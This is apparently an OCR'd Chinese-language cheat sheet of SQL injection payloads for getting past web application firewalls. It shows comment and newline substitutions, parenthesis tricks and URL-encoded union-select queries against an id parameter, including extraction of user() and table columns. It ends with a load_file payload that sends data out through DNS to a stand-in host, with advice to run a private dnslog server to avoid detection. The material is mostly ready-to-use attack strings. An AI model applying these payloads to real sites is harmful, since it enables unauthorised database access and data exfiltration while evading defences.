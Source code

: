 **函数与括号之间**

```
# 函数与括号之间可添加空格、换行、注释
❌ select version()
✔ select version ()
✔ select version/**/()
✔ select version
#123
()
```

**执行语句之间**

```
# 执行语句之间的空格，可用注释符、"换行%0a"替换
❌ select version()
✔ select/**/version()
✔ select#123
version()
✔ select-- 123
version()
```

**括号包裹**

```
# 逻辑判断式1>1、'a'='b'，from后的表格名，select语句，可用括号包裹
✔ select * from (test)
✔ select * from (test) where (id=1)
✔ select * from (test) where (id=1) union (select * from (test) where (id=2));
```

**省略空格**

```
# 单双引号'"、括号()、反单引号``、星号*、与语句之间可以没有空格
✔ select*from(test)
✔ select*from(test)where(id=1)
✔ select*from(test)where(id=1)union(select*from(test)where(id=2));
```

**注释配合换行符**

```
# order by 1
❌ ?id=1'order by id#
✔ ?id=1%27order%20by%20id%23
✔ ?id=1%27order%23/*%99%0aby%23/*%99%0a4%23
✔ ?id=1%20order%23/*%99%0aby%23/*%99%0aid%23
✔ ?id=1%20order%23/*%99%0aby%23/*%99%0a4%23

# union select x from x
❌ ?id=union select
✔ ?id=union%23/*%99%0aselect
✔ ?id=union--%20%0d%0a%23/*%99%0aselect
✔ ?id=union--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0aa,2,asd
✔ ?id=union--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0a1,id,3%20from%20users
✔ ?id=1%27union--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0a1,id,3%20from%20users%23%27
✔ ?id=1%20union--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0a1,id,3%20from%20users%23
✔ ?id=1%27union--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0a1,%23/*%99%0auser(),3%20from%20users%23

# load_file()
# 规避常规的 dnslog 站点, 最好自建 dnslog 服务
❌ ?id=1'union select load_file("//123.xxx.com/abc")#
✔ ?id=1%27union--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0aload_file(%22//123.xxx.com/abc%22)%23
```